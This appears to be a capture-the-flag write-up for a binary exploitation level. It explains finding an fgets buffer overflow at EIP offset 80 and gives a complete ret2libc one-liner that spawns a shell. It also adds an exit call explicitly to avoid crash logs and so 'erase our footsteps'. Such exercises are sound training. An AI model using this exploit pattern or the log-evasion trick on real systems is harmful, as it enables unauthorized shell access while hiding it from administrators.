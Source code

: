 # Level01

![](Ressources/img/level01_launch.png)

The program waits an input. Let's use [gdb](Ressources/gdb.md) to understand what's going on. 

We can find corresponding username and password (`dat_wil` and `admin`)

![](Ressources/img/try_with_creds.png)

It doesn't work. But, the program doesn't launch `system` for example anywhere and the right credentials don't help us.

So, we can see the `main` uses `fgets` and we must use it vulnerability to trigger a buffer overflow.
Using our [trusty pattern generator](https://projects.jason-rush.com/tools/buffer-overflow-eip-offset-string-generator/) and EIP offset tool, we crash the program and find we can overwrite the EIP at offset `80`.

![](Ressources/img/offset.png)

Let's use ret2libc attack which will overwrite the EIP return address with a particular libc function address directly.

In this case, we're going to overwrite the EIP with the address of `system`, `/bin/sh`, and `exit`.

Why bother add the `exit`? Because if we don't, then the shell will `segfault` upon exit – which will be recorded in the `dmesg` logs and visible to any system admin who looks. 
So basically, to erase our footsteps!

Let's find those addresses:

![](Ressources/img/addresses.png)

- `system` = 0xf7e6aed0
- `exit` = 0xf7e5eb70
- `/bin/sh` = 0xf7f897ec

Our exploit looks like:

`(python -c 'print "dat_wil\n" + "A"*80 + "\xf7\xe6\xae\xd0"[::-1] + "\xf7\xe5\xeb\x70"[::-1] + "\xf7\xf8\x97\xec"[::-1]' ; cat) | ./level01`

![](Ressources/img/level02.png)
